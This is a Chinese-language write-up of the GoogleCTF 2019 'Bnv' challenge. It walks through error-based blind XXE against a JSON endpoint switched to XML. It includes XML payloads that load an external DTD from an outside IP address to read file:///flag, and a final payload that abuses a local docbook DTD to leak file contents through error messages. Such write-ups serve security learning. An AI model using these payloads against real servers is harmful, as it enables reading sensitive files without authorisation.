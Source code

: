 # \[GoogleCTF2019 Quals]Bnv

## \[GoogleCTF2019 Quals]Bnv

## 考点

* 基于报错的Blind XXE
* 利用本地DTD打XXE

## wp

抓包发现请求内容是json，有json就可能会有XXE

![](../.gitbook/assets/wcH6tnKwHzSig4FnrgcJ1UeHC1taVcwVxVQ8kljeNdg.png)

请求头Content-type改成application/xml，用XML试一下

![](../.gitbook/assets/gX5TWe\_WoNnLkcLZQnfLKazwwjA-yCOKR-aDIgnwHvU.png)

看到需要DTD，那就再加上内部DTD，注意这里要先声明一下`to`和`note`标签，要不会报错

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to)>
<!ELEMENT to (#PCDATA)>
<!ENTITY copyright "Copyright runoob.com">
]>
<note>
  <to>Tove  ©right;</to>
</note> 
```

![](../.gitbook/assets/3dTczq729Fo4FfJkeytBUHByqjsBKGxT2Z1RZmzlBb8.png)

之前传json的时候，传的数据是message加数字，那这里也用message标签试试，看到请求成功了

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
]>
<message>©right;</message>
```

![](../.gitbook/assets/kCdb6Olfu4v44KElBD00BuxLY61l73GjwkxjQdRbjDA.png)

接着尝试加载外部实体，可以先试试能不能加载外部链接，结果没有反应，换成https://beeceptor.com/的地址就会提示`failed to load external entity "https://beeceptor.com/", line 6, column 6`，难不成会自动忽略http的外部链接吗

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
<!ENTITY  % xxe SYSTEM "http://121.5.66.238:20001/123.dtd" >
%xxe;
]>
<message>©right;&evil;</message>
123.dtd
<!ENTITY evil SYSTEM "file:///flag" >
```

然后试着加载内部文件，提示标记错误，那就是被加载了，但是不符合DTD格式

![](../.gitbook/assets/QNd744jr74FKLudU2wRDufKmczszBeEaXakTtfnHUUc.png)

到这里就知道了大概，要找到Linux内部可以利用的DTD文件，且本题读取了一个错误的实体，会返回完整的实体名。那就可以先读取flag，赋值给a，再去加载一个错误的DTD，例如`/nonexistent/a`就可以利用报错返回a的值，也就是flag的值

最后payload

```xml
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## 小结

1. 有json可能会有XXE
2. **利用本地DTD文件打XXE**

